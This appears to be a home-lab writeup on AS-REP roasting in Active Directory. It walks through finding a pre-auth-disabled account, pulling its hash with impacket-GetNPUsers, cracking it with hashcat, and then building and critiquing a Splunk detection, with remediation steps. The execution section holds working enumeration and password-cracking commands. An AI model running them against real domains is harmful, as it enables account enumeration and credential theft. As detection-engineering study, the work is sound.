









# Act 1 — AS-REP Roasting

Kerberos pre-authentication disabled on a single domain account, exploited from an in-subnet host, correlated against domain controller telemetry, and turned into a detection — followed by an assessment of what that detection cannot see.

> All addresses, domain names, and identifiers in this writeup belong to a purpose-built lab environment that exists only for this project.

---

## 1. Scenario

Kerberos pre-authentication exists to prove a client holds an account's password *before* the KDC issues anything encrypted with the key derived from that password. When the `DONT_REQUIRE_PREAUTH` flag is set in an account's `userAccountControl`, that proof step is skipped. Any unauthenticated party who knows a valid username can send an AS-REQ and receive an AS-REP encrypted with the account's key.

That response is an offline cracking target. The attacker never authenticates, never increments a bad-password count, and never triggers a lockout.

The flag is typically set for legacy interoperability — older Unix Kerberos clients, appliances, or applications that could not perform timestamp pre-auth. It tends to outlive the system it was set for.

**Environment**

| Role | Host | Address |
|---|---|---|
| Domain controller | DC01 (Windows Server 2022 Core, `lab.local`) | 10.168.168.250 |
| Telemetry | Splunk Enterprise (Ubuntu) | 10.168.168.61 |
| Attack platform | Kali Linux | 10.168.168.58 |

Windows Security and Sysmon logs forward from DC01 to Splunk. The attack originates from the same network segment as the DC, modelling an attacker who already has network presence rather than one operating from outside the perimeter.

---

## 2. The vulnerability

Auditing for the flag across the entire domain is a single query:

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
    Select-Object Name,SamAccountName,DoesNotRequirePreAuth
```

```
Name  SamAccountName  DoesNotRequirePreAuth
----  --------------  ---------------------
jdoe  jdoe            True
```



One account out of five:

| Account | Enabled | Pre-authentication |
|---|---|---|
| Administrator | Yes | Required |
| jdoe | Yes | **Disabled** |
| svc-sql | Yes | Required |
| Guest | No | Required |
| krbtgt | No | Required |

The setting lives inside `userAccountControl` as a bit rather than a discrete attribute:

```
userAccountControl = 4194816

4194304  0x400000  DONT_REQUIRE_PREAUTH
    512  0x000200  NORMAL_ACCOUNT
-------
4194816
```

The account's `whenChanged` attribute (7/24/2026) records when the bit was set — three weeks before it was exploited. That gap is revisited in section 7.

---

## 3. Baseline

Normal Kerberos activity on this DC, captured before generating any attack traffic:

```spl
index=* host=DC01 EventCode=4768 earliest=-24h
| table _time, Account_Name, Pre_Authentication_Type, Ticket_Encryption_Type, Client_Address
```

```
_time            Account_Name    Pre_Auth_Type  Ticket_Encryption_Type  Client_Address
04:13:34.792     Administrator   2              0x12                    ::1
03:45:03.551     Administrator   2              0x12                    ::1
03:43:26.938     DC01$           2              0x12                    ::1
03:43:26.924     DC01$           2              0x12                    ::1
```



Three characteristics define legitimate traffic here:

- **`Pre_Authentication_Type = 2`** — encrypted timestamp pre-auth, the standard flow.
- **`Ticket_Encryption_Type = 0x12`** — AES256-CTS-HMAC-SHA1-96.
- **`Client_Address = ::1`** — every event is loopback. There is no legitimate remote Kerberos traffic in this environment at all.

The machine account `DC01$` appears because computer accounts authenticate to Kerberos the same way user accounts do. In any real domain they account for a substantial share of baseline volume.

---

## 4. Execution

### Enumeration and ticket extraction

The username list deliberately mixes valid, disabled, and nonexistent accounts to observe how the KDC responds to each:

```
jdoe            valid, enabled, pre-auth disabled
administrator   valid, enabled, pre-auth required
krbtgt          valid, disabled
guest           valid, disabled
mmurphy         does not exist
asmith          does not exist
```

```bash
impacket-GetNPUsers lab.local/ -usersfile users.txt -dc-ip 10.168.168.250 \
    -format hashcat -outputfile asrep.hash
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

$krb5asrep$23$jdoe@LAB.LOCAL:<redacted>
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Six requests produced four distinct responses, each leaking account state to an unauthenticated caller:

| KDC response | Accounts | Information disclosed |
|---|---|---|
| AS-REP returned | jdoe | Exists, enabled, pre-auth disabled |
| `UF_DONT_REQUIRE_PREAUTH not set` | administrator | Exists, enabled, correctly configured |
| `KDC_ERR_CLIENT_REVOKED` (0x12) | krbtgt, guest | Exists, disabled or locked |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` (0x6) | mmurphy, asmith | No such account |

This is the part of the technique that generalises beyond misconfigured accounts. A domain with zero roastable users still discloses its full account inventory to anyone who can reach the KDC with a name list.

### Offline cracking

A straight dictionary attack failed:

```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```

```
Status...........: Exhausted
Recovered........: 0/1 (0.00%)
Progress.........: 14344385/14344385 (100.00%)
Speed.#01........: 2894.3 kH/s
Time.Started.....: 04:56:44 (5 secs)
```

Adding a rule set recovered it:

```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best66.rule
```

```
Status...........: Cracked
Recovered........: 1/1 (100.00%)
Progress.........: 315632640/946729410 (33.34%)
Speed.#01........: 3985.7 kH/s
Time.Started.....: 04:58:38 (1 min, 20 secs)
```

Both runs were **CPU-only** — no GPU, PoCL on a laptop. 14.3 million candidates exhausted in five seconds; 315 million tested in eighty. The recovered password satisfied uppercase, lowercase, numeric, and special-character complexity requirements, and fell to a dictionary word plus a common suffix mutation.

**Why this is cheap.** The hash is `$krb5asrep$23$` — etype 23, RC4-HMAC. Cracking is an MD4 of the UTF-16LE password followed by HMAC-MD5, both computationally trivial and highly parallel. AES256 (etype 18, the `0x12` in baseline) derives keys through PBKDF2 at 4096 iterations, roughly four orders of magnitude slower for the same wordlist on the same hardware.

The tool requests RC4 specifically. That is a deliberate downgrade to keep the offline stage affordable.

---

## 5. Telemetry

### Volume

The 30-minute attack window contained **440 Security and Sysmon events** on an idle single-DC lab with five accounts.



One of them is the attack. Finding it without knowing what to look for is the problem detection engineering exists to solve — and this is an environment with essentially no users. The ratio in production is worse by orders of magnitude.

### The event

```
EventCode=4768
Keywords=Audit Success
Message=A Kerberos authentication ticket (TGT) was requested.

Account Information:
    Account Name:            jdoe
    Supplied Realm Name:     LAB.LOCAL

Service Information:
    Service Name:            krbtgt

Network Information:
    Client Address:          ::ffff:10.168.168.58
    Client Port:             55330

Additional Information:
    Ticket Options:          0x50800000
    Result Code:             0x0
    Ticket Encryption Type:  0x17
    Pre-Authentication Type: 0
```




Against baseline:

| Field | Baseline | Attack |
|---|---|---|
| Pre-Authentication Type | `2` (encrypted timestamp) | **`0`** (bypassed) |
| Ticket Encryption Type | `0x12` (AES256) | **`0x17`** (RC4) |
| Client Address | `::1` (loopback) | **`::ffff:10.168.168.58`** |
| Result Code | `0x0` | `0x0` |

Two details worth pulling out.

**`Keywords=Audit Success`, `Result Code: 0x0`.** From the DC's perspective nothing failed. Any alerting built on failed-logon volume, lockout thresholds, or authentication errors misses this entirely.

**The `::ffff:` prefix** is IPv4-mapped IPv6 notation. A rule matching the literal dotted-quad address would fail silently against this format.

### What did not log

Six requests were sent. One Security event was written — for jdoe.

The obvious explanation was audit policy, so it was tested rather than assumed:

```
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable
```



The identical attack was re-run with Success **and** Failure auditing confirmed active. The result was identical: one event, for jdoe.

Verified by counting every Security event code in the window rather than filtering on assumptions about which ones should appear:

```spl
index=* host=DC01 source="WinEventLog:Security" earliest=-10m
| stats count by EventCode
| sort -count
```

```
EventCode  count
4624       28
4672       28
4634       27
4768        2
4769        2
 521        2
4719        1
```



No 4771. No 4625. No 4776.

**Finding.** On this domain controller, with Kerberos Authentication Service auditing set to Success and Failure, a six-account AS-REP roasting attempt generated exactly one Security event — the successful ticket issuance for the one misconfigured account. All five rejected requests produced no log entry. The KDC error codes returned to the attacker were sufficient to enumerate valid usernames and account states, and none of that reconnaissance was observable from the DC.

The `4719` in that table is the audit policy change itself. The DC logged the defensive configuration change, but not the five attack requests that followed it.

> **Scope of this finding.** This was observed on one Windows Server 2022 Core DC with one forwarder configuration. It has not been confirmed that the absence is Windows behaviour rather than a collection artefact — the forwarder's `inputs.conf` may filter which event codes are shipped. Verifying that, and reproducing on a second DC, is open work. The finding as stated is what this environment demonstrated, not a general claim about Windows.

The `521` events were not investigated.

---

## 6. Detection

```spl
index=* host=DC01 EventCode=4768 earliest=-24h
| search Pre_Authentication_Type=0
| table _time, Account_Name, Client_Address, Ticket_Encryption_Type, Result_Code
| sort _time
```

```
_time                    Account_Name  Client_Address          Ticket_Encryption_Type  Result_Code
2026-07-28 04:34:36.298  jdoe          ::ffff:10.168.168.58    0x17                    0x0
2026-07-28 04:50:51.493  jdoe          ::ffff:10.168.168.58    0x17                    0x0
```



Two events across 24 hours. Both are the attack — the original run and the re-run after the audit policy change.

The same rule bounded to end before the first attack, across a window that demonstrably contains normal Kerberos activity:



Zero results. 440 events per 30 minutes reduced to two, and both are the attack.

The rule is **per-event, not threshold-based**. It fires on a single roast of a single account rather than on a burst, so an attacker who targets one account slowly does not evade it. Both runs were caught independently, which confirms this in practice.

---

## 7. Attacking the detection

The rule above works in this environment. That is a much weaker statement than "the rule works," and the difference is what this section is about.

### Signals ranked by durability

**`Pre_Authentication_Type = 0` — structural.**
This is not an attacker choice. An AS-REQ without pre-authentication data is what the technique *is*; there is no variant of AS-REP roasting that performs pre-auth, because performing it would require already knowing the password. Any request against a flagged account produces this value. A detection keyed here is keyed to the protocol, not to a tool's defaults.

**`Ticket_Encryption_Type = 0x17` — circumstantial, and an open question.**
RC4 is requested to make the offline crack cheap. Whether an attacker can request AES instead and still obtain a crackable AS-REP was **not tested** in this act. `GetNPUsers` exposes no encryption-type flag, and hashcat mode 18200 is RC4-specific, so testing it requires either a different tool or a modified request — and whether the KDC would comply depends on the account's `msDS-SupportedEncryptionTypes`. This is the most useful open question left by Act 1: if AES can be requested, every published rule that requires `0x17` is brittle and the structural signal above is the only durable one. Resolving it is queued for a later act.

**`Client_Address` — lab artefact.**
Every legitimate 4768 in this environment is loopback, so any remote address is anomalous. That property does not survive contact with a real domain, where thousands of workstations authenticate legitimately and remote addresses are the overwhelming majority of 4768 traffic. This signal is named specifically because it looks strongest in the lab and is worth least in production — which is the trap this section exists to avoid.

### What the detection cannot see

**The enumeration phase.** Established in section 5: rejected requests generated no Security event even with Failure auditing enabled. An attacker can map the account inventory — which names exist, which are disabled, which are roastable — before touching a single roastable account, and the DC records none of it. A domain with zero misconfigured accounts is still an enumeration oracle, and no 4768-based rule covers that at all.

**The offline crack.** Once the AS-REP is issued, everything else happens on attacker hardware. No rate limiting applies, no lockout policy applies, and the account's password policy is relevant only to how long the crack takes. The interval between ticket issuance and credential use is unbounded and unobservable from the domain.

### The detection is reactive by construction

Every signal above fires at the moment of exploitation. The ticket is already issued; the crack has already begun.

The flag was set on `jdoe` on 7/24 and exploited on 7/28. Modifying `userAccountControl` on a directory object generates **Event 4738** (a user account was changed), which means a detection keyed on the flag being *set* would have had a three-week head start on the one keyed on the roast.

**Not yet tested.** Whether 4738 fires on this specific change, and whether the event exposes enough detail to isolate the `0x400000` bit rather than just recording that *something* on the account changed, has not been verified. It is the first item in Act 2.

### Remediation, in order of value

1. **Clear the flag.** The vulnerability is a bit, not a behaviour. `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}` is a five-second domain-wide audit that is rarely run.
2. **If the flag is genuinely required** for legacy interoperability, give that account a password long enough that offline cracking is impractical, and monitor it specifically.
3. **Enforce AES-only Kerberos** where the environment allows it, raising the cost of the offline stage substantially.
4. **Alert on the configuration change**, not only on the exploitation — pending the 4738 verification above.

---

## Artifacts

```
act-01-asrep-roasting/
├── README.md
├── screenshots/
│   └── 01–09
├── detections/
│   └── asrep-roast.spl
├── config/
│   └── audit-policy.md
└── artifacts/
    └── users.txt
```

## Open questions carried into Act 2

1. Can an AS-REP be obtained with AES encryption, breaking `0x17`-based rules?
2. Does Event 4738 fire on a `DONT_REQUIRE_PREAUTH` change, and does it expose the bit?
3. Is the absence of failure events a Windows behaviour or a forwarder collection artefact?
